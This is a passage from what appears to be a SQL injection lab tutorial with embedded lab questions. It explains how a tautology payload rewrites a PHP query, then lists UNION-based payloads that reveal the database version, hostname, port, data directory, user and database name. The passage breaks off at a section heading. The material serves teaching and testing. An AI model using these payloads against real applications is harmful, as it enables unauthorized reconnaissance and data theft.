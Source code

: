 The query that PHP sends to the database looks like this:

`SELECT first_name, last_name FROM users WHERE user_id = '$id';`

With our SQL injection payload, it looks like this:

`SELECT first_name, last_name FROM users WHERE user_id = 'test' OR 1=1#';`

The DBMS strips the comment, leaving us with this query:

`SELECT first_name, last_name FROM users WHERE user_id = 'test' OR 1=1`

Ending a statement without a semicolon works as long as no other statements follow it.

## Union-based SQLi queries

A union clause allows attackers to execute additional `select` queries and add results to the original query. It can be used to retrieve data from other tables. However, you need to make sure that:

- Each modified query returns the same number of columns as the original query.
- The data types in each column of the modified query must be compatible those in the original query.

### Show database version

`' union select null, version()#`

### Show hostname

`' union select null, @@hostname#`

{% include lab_question.html question='What kind of variable is `@@hostname`?' %}

{% include lab_question.html question='What's the full path to the SQL server's SSL key?' %}

### Show port

`' union select null, @@port#`

### Concatenate more host information fields

We can concatenate 0x0a (line feed) with selected information to better display it.

`' union select null, concat(@@version, 0x0a, @@hostname, 0x0a, @@datadir, 0x0a, @@version_compile_os) #`

### Show DMBS username

`' union select null, user() #`

### Show all users and the database name 

Demonstrates joining a tautology query with a `database()` query using the `union` command.

`' or 0=0 union select null, database() #`

### Show just the database name

